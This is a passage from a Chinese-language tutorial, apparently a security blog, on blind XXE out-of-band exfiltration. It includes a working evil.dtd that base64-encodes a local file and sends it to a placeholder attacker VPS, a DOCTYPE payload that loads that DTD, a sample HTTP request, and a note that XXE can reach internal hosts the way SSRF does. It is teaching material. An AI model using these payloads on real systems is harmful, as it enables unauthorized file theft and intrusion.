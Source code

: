 **evil.dtd**

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!ENTITY % eval "<!ENTITY &#x25; send SYSTEM 'http://VPSIP:端口?p=%file;'>">
%eval;
%send;
```

**payload**

```xml-dtd
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://VPSIP:端口/evil.dtd">
%remote;
]>
```

**如下：**

```http
POST /xxe.php HTTP/1.1
Host: 192.168.1.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 99

<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://VPSIP:端口/evil.dtd">
%remote;
]>
```

**结果如下：**

![XXE9](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/XXE9.png)

我们清楚第看到服务器端接收到了我们用 base64 编码后的敏感文件信息(编码也是为了不破坏原本的XML语法)，不编码会报错

**整个调用过程：**

我们从 payload 中能看到 连续调用了一个参数实体 %remote去请求包含远程的evil.dtd文件，该dtd包含进来后，我们的利用顺序为，%remote 先包含evil.dtd文件，然后 %eval调用 evil.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 `%`)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题

#### 新的思考

我们刚刚都只是做了一件事，那就是通过 file 协议读取本地文件，或者是通过 http 协议发出请求，熟悉 SSRF 的童鞋应该很快反应过来，这其实非常类似于 SSRF ，因为他们都能从服务器向另一台服务器发起请求，那么我们如果将远程服务器的地址换成某个内网的地址，（比如 192.168.0.10:8080）是不是也能实现 SSRF 同样的效果呢？没错，XXE 其实也是一种 SSRF 的攻击手法，因为 SSRF 其实只是一种攻击模式，利用这种攻击模式我们能使用很多的协议以及漏洞进行攻击
